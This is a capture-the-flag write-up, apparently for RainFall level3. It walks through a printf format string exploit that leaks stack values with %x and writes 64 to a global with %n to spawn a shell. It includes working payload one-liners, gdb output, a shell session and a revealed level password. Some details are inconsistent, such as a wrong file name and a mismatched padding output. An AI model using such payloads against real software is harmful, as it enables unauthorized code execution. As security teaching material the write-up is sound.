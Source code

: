 ### The Basic Idea
The program contains a **format string vulnerability** in a `printf()` function. The format string vulnerability is a well-known security flaw where we can control the input to `printf()` and use format specifiers (like `%x` or `%n`) to **read** or **write** arbitrary memory. The goal here is to modify the value of a global variable `m`, which is located at a known memory address, and set it to `64`. When `m` equals `64`, the program executes a `system()` call, which gives us shell access.

### 1. **Identifying the Vulnerability in `printf()`**

In the vulnerable program, `printf()` is called like this:
```c
printf(user_input);
```
Where `user_input` is the input the program takes from the user. This means that **we** control the format string passed to `printf()`. Normally, `printf()` expects a format string, but since the input comes from the user, we can insert special format specifiers like `%x`, `%n`, etc.

- **`%x`** prints values from the stack as hexadecimal integers.
- **`%n`** writes the number of characters printed so far to the memory address we specify.

This is a **dangerous vulnerability** because we can use `%x` to print memory values and `%n` to modify memory, which can allow us to overwrite variables like `m`!

### 2. **Using `%x` to Read Memory**

Our task is to locate the memory address of the global variable `m`, which is located at a known address (let's say `0x804988c`). The stack stores return addresses, function parameters, and other data, including the address of `m`. To find it, we use `%x`, which prints values from the stack.

#### Here’s what we do:
We run this command:
```bash
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit3
cat /tmp/exploit3 | ./level3
```

#### Explanation:
- `"aaaa"` is our input string, which is printed first.
- The `%x` format specifier tells `printf()` to print a value from the stack in hexadecimal form.
- The stack contains values, and we print the first 10 stack values using `%x %x %x %x %x %x %x %x %x %x`.

The output might look like:
```
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

- The first printed value, `61616161`, is the **hexadecimal** representation of the ASCII string `"aaaa"`.
- Other values (`b7fd1ac0`, `b7ff37d0`) represent **memory addresses** from the stack.

We are interested in finding the address of `m`. After printing several `%x` values, we can find the address of `m` in the output, like this:

``` bash
(gdb) info variables m
Non-debugging symbols:
0x08049884  completed.6159
0x0804988c  m
(gdb)
```

```bash
python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit3
cat /tmp/exploit | ./level3
```

This might output:
```
200 b7fd1ac0 b7ff37d0 804988c
```

Now we see the address `0x804988c`, which is the address of `m`! This is the crucial step, as we've located the memory address of the global variable `m`.

### 3. **Overwriting the Value of `m`**

Now that we know the address of `m`, we need to **change** its value to `64` because the program has logic that checks if `m == 64` and then triggers a `system()` call (which gives us a shell). The `%n` format specifier allows us to **write** the number of characters printed so far to the specified memory address.

#### Steps to Modify `m`:
1. We know that `m` is located at `0x804988c`, so we use its address in little-endian format (`\x8c\x98\x04\x08`).
2. We pad the input string to make the total number of characters printed equal to `64`. This will ensure that when we use `%n`, it writes `64` to `m`.
3. We use `%n` to write the number of characters printed (which will be `64`) to the address of `m`.

Here's the exploit:
```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
cat /tmp/exploit3 | ./level3
```

#### Explanation:
- `"\x8c\x98\x04\x08"` is the address of `m` in little-endian format.
- `"A" * 60` pads the input string so that the total number of characters printed is `64`.
- `%4$n` tells `printf()` to write the number of characters printed so far (which is `64`) to the memory address we specified earlier (`m`).

### 4. **Gaining Shell Access**

Once `m` is set to `64`, the program checks if `m == 64`. If true, it prints `"Wait what?!"` and executes the `system()` function, which opens a shell for us.

#### Output:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
```

We successfully modified `m` to `64`, and the program triggers the `system()` call, launching a shell.

Now, we have a shell, and we can execute commands like `whoami` to confirm we are running as the `level4` user, and `cat /home/user/level4/.pass` to get the flag.

### Why This Works

1. **Format String Vulnerability**: The `printf()` function is vulnerable because it allows the attacker to inject format specifiers into the format string, allowing them to print values from memory and write to specific memory locations.

2. **Reading Memory (`%x`)**: By printing values from the stack with `%x`, we can read memory addresses and values, including the address of `m`.

3. **Writing to Memory (`%n`)**: The `%n` format specifier lets us write the number of characters printed so far to a specified address. This allows us to modify the value of `m`.

4. **Triggering the Shell**: By setting `m` to `64`, we cause the program to execute the `system()` call, which gives us a shell.

### Conclusion

This works because the `printf()` function doesn't sanitize the format string, so we can manipulate the program's stack to read and modify memory. By chaining the use of `%x` (to read the address of `m`) and `%n` (to overwrite `m`), we can control the flow of the program and execute the `system()` function, gaining access to a shell.


``` bash
level3@RainFall:~$ cat /tmp/exploit3 | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
level3@RainFall:~$ cat /tmp/exploit3 - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
woami
/bin/sh: 1: woami: not found
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
su level4
su: must be run from a terminal
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa/bin/sh: 5: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa: not found
level3@RainFall:~$ su level4
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$
```